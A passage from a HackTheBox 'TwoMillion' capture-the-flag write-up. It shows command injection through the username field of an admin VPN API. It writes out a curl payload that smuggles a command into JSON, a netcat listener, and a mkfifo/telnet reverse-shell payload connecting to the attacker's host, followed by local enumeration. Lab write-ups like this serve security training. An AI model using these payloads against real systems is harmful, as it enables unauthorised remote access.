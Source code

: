 2. (Camera...) Creating the payload for the request:

```json
{"username": "tandera; curl http://10.10.14.38/"}
```

3. (Action!) Requesting the server:[^4]

```shell
curl "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -H "Content-Type: application/json" -d '{"username":"tandera; curl http://10.10.14.38/"}'
```

<img src="/assets/writeups/2023-06-10-twomillion/code_injection.png" width=800px alt="Our little injection.">

Here it is! The server have executed our `curl` command. Through this technique, we can get a reverse shell:

1. Listening with `netcat`:

```
nc -lvp 4000
```

2. Making the server connect into our machine:

```shell
curl "http://2million.htb/api/v1/admin/vpn/generate" --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -H "Content-Type: application/json" -d '{"username":"tandera; TF=$(mktemp -u);mkfifo $TF && telnet 10.10.14.38 4000 0<$TF | /bin/sh 1>$TF"}'
```

## Privilege Escalation

### Local Enumeration (www-data)

---
- id: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`
- system: `Ubuntu 22.04.2 LTS`
- users: `root`, `www-data` and `admin`
- kernel: `5.15.70-051570-generic`
- sudo: `not for www-data`

---

Our shell spawns on the default directory for the Apache server, `/var/www/html/`. This folder has all the web application. Scouring around, we find a file called `Database.php`, containing all the methods to interact with MySQL with Singleton. 


[^1]: It's possible to bruteforce directories too, but all links are available through crawling and javascript analysis. If you want to **speed things up**, use the `-jc/-js-crawl` option in katana. 
[^2]: The responses are always equal to the "Invalid Code" response, even with Boolean Based techniques. 
[^3]: The `ovpn` file contains a subdomain to connect: `edge-eu-free-1.2million.htb`, on port 1337. This port is closed. 
[^4]: The `10.10.14.38` is my local address of the real HackTheBox VPN (tun0). 
[^5]: To use the web-server in your local machine, make sure to create the database and tables of the application.